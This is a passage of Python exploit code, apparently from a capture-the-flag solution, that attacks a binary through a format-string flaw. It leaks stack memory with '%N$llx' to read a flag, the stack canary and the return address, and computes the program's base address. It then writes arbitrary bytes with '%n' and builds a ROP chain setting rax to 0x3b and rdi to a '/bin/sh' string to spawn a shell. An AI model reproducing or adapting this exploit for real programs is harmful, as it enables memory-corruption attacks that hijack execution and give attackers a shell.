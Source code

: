 ```python
    delta=(saddr-rsp_saddr)//8+6
    rets=toint(calls("%"+str(delta)+"$llx"))
    return rets

#1 rsi
#5 r9
#6 rsp 7FFFBA278A10

flag1_delta=(flag1_saddr-rsp_saddr)//8+6

print(flag1_delta)
flag1=b''

for i in range(8):
    rets=toint(calls("%"+str(flag1_delta+i)+"$llx"))
    bts=int.to_bytes(rets,8,'little')
    flag1+=bts

print(flag1)





def setbyte(addr,value):
    # print(hex(addr),value)
    payload1=b"0"*512+int.to_bytes(addr,8,'little')#write address
    callb(payload1)
    delta=(buf_saddr+512-rsp_saddr)//8+6
    payload2=b"0"*value+b"%"+str(delta).encode()+b"$n"
    callb(payload2)

def setqword(addr,value):
    for i in range(8):
        setbyte(addr+i,(value>>(i*8))&0xff)

canary_saddr=0x7fffc01c7cf8
canary_addr=pubs_addr-pubs_saddr+canary_saddr #7FFFBA278EF8
canary_value=getqword_s(canary_saddr)
print(hex(canary_value))

# print(hex(getqword_s(canary_saddr+16)))
# setbyte(canary_addr+16,0x99)
# print(hex(getqword_s(canary_saddr+16)))


ra_value=getqword_s(canary_saddr+16)
rbp_value=getqword_s(canary_saddr+8)
print(hex(ra_value),hex(rbp_value))
base_addr=ra_value-0xa3fd
print(hex(base_addr))


payload=b"0"*(512+32)+b"/bin/sh\x00"
callb(payload)

setqword(canary_addr+16,base_addr+0x5a777)#set rax
# print(hex(getqword_s(canary_saddr+16)))
setqword(canary_addr+16+8*1,0x3b)#rax


setqword(canary_addr+16+8*2,base_addr+0x9cd2)#set rdi
setqword(canary_addr+16+8*3,buf_addr+512+32)#rdi
```